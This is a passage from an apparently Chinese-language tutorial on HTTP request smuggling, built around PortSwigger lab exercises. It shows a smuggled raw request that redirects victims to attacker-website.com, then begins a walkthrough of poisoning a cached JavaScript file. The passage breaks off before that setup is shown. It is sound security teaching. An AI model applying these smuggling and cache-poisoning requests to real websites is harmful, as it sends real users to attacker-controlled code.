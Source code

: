 Smugle 之后的请求会像以下这样：

```plain
GET /home HTTP/1.1
Host: attacker-website.com
Foo: XGET /scripts/include.js HTTP/1.1
Host: vulnerable-website.com
```

然后如果服务器根据 Host 进行跳转的话，我们会得到以下的 Response:

```plain
HTTP/1.1 301 Moved Permanently
Location: https://attacker-website.com/home/
```

这样，受害者，也就是访问`/scripts/include.js`这个的用户，会被跳转到我们控制的 url 了。

### Perform Web Cache Poisoning

这个场景也是基于上面的 Host 跳转的攻击场景，如果 Front 服务器还存在缓存静态资源的话，我们可以配合 HTTP Smuggling 进行缓存投毒，[Lab: Exploiting HTTP request smuggling to perform web cache poisoning](https://portswigger.net/web-security/request-smuggling/exploiting/lab-perform-web-cache-poisoning)

> This lab involves a front-end and back-end server, and the front-end server doesn't support chunked encoding. The front-end server is configured to cache certain responses.
> 
> To solve the lab, perform a [request smuggling](https://portswigger.net/web-security/request-smuggling) attack that causes the cache to be poisoned, such that a subsequent request for a JavaScript file receives a redirection to the exploit server.

这个环境也是一个可以修改 Host 进行跳转的场景，而在`/post/next?postId=2`路由正好有一个跳转的 api 供我们使用，这个路由跳转到的是`/post?postId=4`。

根据题目描述，我们需要实现缓存投毒， 例如这里我们就选择`/resources/js/tracking.js`进行投毒，LAB 还给了我们制造投毒的服务，于是我们可以进行以下设置：
